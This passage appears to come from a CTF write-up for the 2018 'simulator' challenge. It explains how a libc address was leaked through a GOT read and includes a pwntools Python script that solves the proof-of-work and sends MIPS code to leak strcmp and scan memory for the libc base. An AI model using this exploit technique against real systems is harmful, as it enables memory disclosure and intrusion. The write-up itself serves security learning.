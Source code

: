 ### Leaking libc's position

This part requires a bit of math to get an arbitrary read on the GOT, where we leaked the address of `strcmp` and `strchr`.
We couldn't find the libc that was being used, so we first found the offset between `strcmp` and the libc base by going backwards 4K at a time until a crash (because there's nothing between the binary and libc).
To do this, we subtracted 0x4000004 from the `strcmp` address, divided by 8 (with an ad hoc MIPS function), set the MSB and then iterated in a cycle in which we attempt an `lw`, subtract 512 and repeat.
This is the script:

```python
#!/usr/bin/env python2

from pwn import *
import itertools
from hashlib import sha256

def pow(todo=False):
    if(todo ==  True):
        conn = remote("simulator.2018.teamrois.cn", 3131)
        chall = conn.recvuntil("\n").split("\n")[0]
        alpha = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
        for a,b,c,d in itertools.product(alpha, repeat=4):
            if(sha256(chall + a + b + c + d).digest().startswith('\0\0\0') == True):
                sol = a + b + c + d
                break;
        conn.sendline(sol)
        return conn
    else:
        return process('./simulator')

def div8():
    lines = []
    lines.append('li $v0, 0')
    lines.append('li $t0, 1')
    for i in reversed(range(3, 32)):
        lines.append('li $t1, {}'.format(2**i))
        lines.append('slt $t2, $a0, $t1')
        lines.append('beq $t2, $t0, div8_{}'.format(i-1))
        lines.append('sub $a0, $a0, $t1')
        lines.append('li $t1, {}'.format(2**(i-3)))
        lines.append('add $v0, $v0, $t1')
        lines.append('div8_{}:'.format(i-1))
    return '\n'.join(lines)

# leak strcmp, go back 4k until crash
code = """
li $t0, 2155911681
lw $a0, $t0
li $v0, 1
syscall
sub $a0, $a0, 67108868
""" + div8() + """
li $t0, 2147483648
add $a0, $v0, $t0
find_base:
lw $t0, $a0
li $v0, 1
syscall
sub $a0, $a0, 512
j find_base
"""
```